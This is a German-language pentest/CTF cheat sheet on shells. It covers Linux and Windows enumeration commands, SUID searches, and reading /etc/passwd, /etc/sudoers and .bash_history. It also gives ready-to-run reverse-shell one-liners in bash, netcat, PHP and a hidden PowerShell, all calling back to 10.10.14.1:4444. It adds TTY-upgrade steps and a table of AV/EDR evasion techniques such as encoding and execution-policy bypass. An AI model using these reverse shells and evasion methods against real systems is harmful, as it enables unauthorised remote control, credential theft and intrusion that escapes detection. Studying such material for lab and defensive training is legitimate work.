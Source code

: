 ____________________________________________________________________________
| Begriff   | Bedeutung                                                    |
| --------- | ------------------------------------------------------------ |
| CLI       | *Command Line Interface*, z. B. Bash, CMD, PowerShell        |
| Shell     | Benutzerinterface zur Systemsteuerung (via Textbefehle)      |
| TTY / PTY | *Teletype* / *Pseudo Terminal* – wichtig bei Shell-Spawns    |
| REPL      | Read-Eval-Print-Loop – Grundprinzip jeder interaktiven Shell |


**🐧 Linux Shell Basics (bash, sh, zsh):**
pwd                     # aktuelles Verzeichnis

ls -lah                  # alle Dateien anzeigen

cd /etc                 # in Verzeichnis wechseln

whoami                  # aktueller Nutzer

id                      # Nutzer + Gruppen

uname -a                # Kernelversion

hostname                # Hostname

sudo -l                 # Sudo-Rechte anzeigen

find / -perm -u=s -type f 2>/dev/null  #SUID

**Prozesse & Netzwerk**

ps aux | grep root

netstat -tulnp

ss -tuln

**Pakete & Dienste**

dpkg -l                 # Debian Pakete

rpm -qa                 # RedHat Pakete

systemctl list-units --type=service


**Bash & Reverse Shells:** (lokal listener: nc -lvnp 4444)

bash -i >& /dev/tcp/10.10.14.1/4444 0>&1

nc -e /bin/sh 10.10.14.1 4444

php -r '$sock=fsockopen("10.10.14.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'


**Shell POWER-UP**

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

CTRL-Z → stty raw -echo; fg


**Windows:**

whoami

hostname

ipconfig /all

tasklist

netstat -ano

type file.txt


**Dienste & Prozesse**

sc query

tasklist /SVC

wmic service list brief


**Benutzer und Gruppen**

net user

net localgroup

net localgroup administrators




**PowerShell:**

Get-Process

Get-Service

Get-LocalUser

Get-LocalGroup

Get-Content C:\flag.txt

Start-Process cmd.exe


Get-NetTCPConnection

Test-Connection 10.10.14.1

Resolve-DnsName target.local


Get-ChildItem -Recurse -Force

Get-Acl C:\flag.txt | Format-List

**PowerShell Reverse Shell:**

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object Net.Sockets.TCPClient("10.10.14.1",4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + "PS " + (pwd).Path + "> ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}

# → Funktioniert auch in HTA-, Macro- oder Webshell-Form.

| Typ                    | Beschreibung                   | TTY-Upgrade nötig?     |
| ---------------------- | ------------------------------ | ---------------------- |
| **Bash Shell**         | Direkt via Linux               | Meist ja               |
| **Meterpreter**        | MSF Shell mit Zusatzfunktionen | Nein                   |
| **PowerShell**         | Windows, mächtig & oft erlaubt | Nein                   |
| **CMD Shell**          | Basic, aber oft Whitelisted    | Nein                   |
| **Webshells**          | z. B. PHP, JSP, ASPX           | Ja, für Interaktivität |
| **nc/powershell/bind** | Manuelle Verbindung            | Ja, meistens           |

**AV/EDR-Evasion:**
| Technik                    | Erklärung                             |
| -------------------------- | ------------------------------------- |
| Encoding                   | z. B. base64-encoded PowerShell       |
| Obfuscation                | Variablennamen, String-Mix            |
| LOLBins                    | legitime Binaries (z. B. `mshta.exe`) |
| ScriptBlockLogging umgehen | `-ExecutionPolicy Bypass`             |
| ASLR umgehen               | Shellcode-Stager + Loader             |


env

printenv

cat /etc/passwd

cat /etc/group

cat /etc/sudoers

cat ~/.bash_history


Get-History

Get-ExecutionPolicy

Get-Command -Module Net*

# Shell-Erweiterung (TTY-Fix, Interaktivität)

python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL-Z

stty raw -echo; fg

reset
